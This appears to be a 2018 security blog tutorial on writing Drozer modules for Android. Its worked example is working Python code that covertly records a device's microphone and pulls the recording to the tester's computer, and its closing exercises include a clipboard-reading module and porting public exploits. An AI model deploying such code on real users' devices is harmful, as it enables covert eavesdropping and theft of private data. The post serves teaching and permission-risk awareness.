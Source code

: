 ```yaml
---
date: "2018-05-13T17:10:13+05:30"
title: "Writing Drozer Modules"
categories:
  - Security
  - CSE
tags:
  - Drozer
  - android
draft: false
---
```


This post is a result of my experimentation with Drozer. Drozer is a security testing framework for Android, developed by MWR Labs. According the Drozer's official [documentation](https://labs.mwrinfosecurity.com/assets/BlogFiles/mwri-drozer-user-guide-2015-03-23.pdf):

> Drozer allows you to assume the role of an Android app and interact with other apps. It can do anything that an
installed application can do, such as make use of Android’s Inter-Process Communication (IPC) mechanism and
interact with the underlying operating system.


Drozer modules are written in Python. The module performs operations on an Android device with the help of an agent app installed on the device. The agent app, by default, has permission to use the internet connection only. This permission is required so that the agent can open a ServerSocket on port 31415 (default). The agent will listen for the incoming connections on this port. The console will connect to the agent on this port.


Drozer modules are basically inherited Python classes. The parent class is defined in [drozer.modules.Module](https://github.com/mwrlabs/drozer/blob/develop/src/drozer/modules/base.py). Drozer console provides commands to create a custom module repository which is very useful for the local development of modules.

You can read more about the structure of a Drozer module [here](https://github.com/mwrlabs/drozer/wiki/Writing-a-Module).

I will explain all the critical parts of a Drozer module with the help of a sample module. I will be implementing a module to record and save the sound from the inbuilt mic of an Android device.

I initialized a new module repository using Drozer console using the following command.
```bash
dz> module repository create custom
Initialised repository at custom.
```

You will see a new directory `custom` in your current directory after executing above command. Navigate to this directory and create a new folder with any name. I prefer to name this folder same as my module name. In this folder, create a file `__init__.py`. Drozer identifies the folder as a module directory if `__init__.py` is present in the directory. Now you can implement your module in this directory.

To begin implementing our module, create a new file `record.py` in the module directory. Drozer has many different utility classes, which we can use to simplify our implementation. To use these utility classes ([mixins](https://github.com/mwrlabs/drozer/wiki/Using-mixins)), our module class must extend _mixins_ using Python's multiple inheritance feature.

We first need to import all the required mixins. The mixins are stored in `modules.common` package in the Drozer source tree. After importing mixins and extending our class, the code will look like this. You can also import any other standard Python module here.
```Python
from drozer.modules import common, Module
import os, subprocess, time

class Record(Module, common.Shell, common.FileSystem, common.ClassLoader):
```

Now we will set up the metadata for our module. This information will help Drozer to organize and list our module correctly. We can define name, description, author, date, license, path, permissions, and examples. Most of the available options are self-explanatory. But _path_ and _permissions_ require some explanation.

The _path_ variable defined here is an array which contains the values for the namespace of the module. Drozer supports separate namespaces for each module. We can combine similar modules in the same namespace using this feature.

The _permissions_ array variable contains all the permissions that this module will require for proper functioning. For example, our module will need permission to record audio on the device to work correctly. So we define this permission in the permissions array. The agent app on the device is required to  have this permission. Otherwise, our module will throw an error.

The following snippet shows the metadata section of our module.
```Python
name = "Record sound from the inbuilt mic of an Android device."
description = "Record sound from the inbuilt mic of an Android device. The default save format is 3GPP. Relies on the agent having the RECORD_AUDIO permission."
examples = """
dz> run custom.record.record
Setting up recorder configuration...
Recording started
Press any key to stop recording

Recording stopped...downloading recording
Screenshot captured. Saved at location /home/yash/work/drozer/1524201166.3gp
"""
author = "Yash Agarwal"
date = "2018-04-14"
license = "BSD (3 clause)"
path = ["custom", "record"]
permissions = ["android.permission.RECORD_AUDIO", "com.mwr.dz.permissions.GET_CONTEXT"]
```

Now we can start implementing the heart of our module, the `execute()` function. This function will be invoked by Drozer when the module is run. Every action that the module is expected to perform should be implemented in this method.

The implementation of `execute()` method is slightly tricky and requires an understanding of different classes and methods provided by the Android API. As we are writing a module to record sound, we will look into the documentation of [MediaRecorder](https://developer.android.com/guide/topics/media/mediarecorder.html) class. Before reading further, go through the documentation about the use of reflection API in Drozer [here](https://github.com/mwrlabs/drozer/wiki/Using-Reflection).

The `execute()` function is given below.
```Python
def execute(self, arguments):
    # unique file names
    filename = str(int(time.time())) + ".3gp"

    # current working directory of Drozer console
    cwd = self.workingDir()

    # Magic of Reflection API !!!
    recorder = self.new("android.media.MediaRecorder")
    AudioSource = self.klass("android.media.MediaRecorder$AudioSource")
    OutputFormat = self.klass("android.media.MediaRecorder$OutputFormat")
    AudioEncoder = self.klass("android.media.MediaRecorder$AudioEncoder")

    recorder.setAudioSource(AudioSource.MIC)
    recorder.setOutputFormat(OutputFormat.THREE_GPP)
    recorder.setAudioEncoder(AudioEncoder.AMR_NB)
    recorder.setOutputFile("%s/recording.3gp" % cwd)
    recorder.prepare()

    self.stdout.write("Recording started\n")
    recorder.start()
    raw_input("Press any key to stop recording\n")
    recorder.stop()
    self.stdout.write("Recording stopped...\n")
    recorder.reset()
    recorder.release()

    # Download file from device to PC
    length = self.downloadFile("%s/recording.3gp" % cwd, filename)

    if length != None:
        self.stdout.write("Recording saved\n")

    else:
        self.stderr.write("Recording could not be fetched from the device.\n")
```

I followed the sample use case given on [this](https://developer.android.com/reference/android/media/MediaRecorder.html) page, to instantiate and use the _MediaRecorder_ object.

After the recording is finished, we want to save this recorded media file to our computer. Drozer provides a method, [downloadFile](https://github.com/mwrlabs/drozer/blob/c92d74024c653b6dc7de3378a24e51d276ae2c62/src/drozer/modules/common/file_system.py) exactly for this purpose. This method returns the length of the data downloaded on success and `None` otherwise. We can use this information to test the success or failure of the fetching of the recording.

That's all. We have successfully implemented a Drozer module which can record the sound on an Android device without the knowledge of the user. Do you smell something fishy here? The whole idea here depends on that particular `android.permission.RECORD_AUDIO` permission, that our agent app had. This allowed our module to record without _user consent_ (the user actually gave her consent unknowingly, while installing agent app). Many apps nowadays ask for arbitrarily random permissions. Those permissions might not be related to the functionality of the app in any way, but because there is no method to install apps without granting these permissions, the users grant all permissions to these apps. That can be exploited very easily. This tutorial tried to show one of such exploitations.

Here are some exercises that you should try if you want to learn more about Drozer module development.

- A module to initiate a call on a device.
- A module to get the clipboard values on a device
- Try finding a public exploit on Android forums such as XDA and implement that exploit as a Drozer module.

Slightly tougher one.

- A module to terminate a call without user intervention (I do not know if it is possible to do this programmatically. If you implement this successfully, do let me know in comments section.)


Thanks for reading. Cheers :)
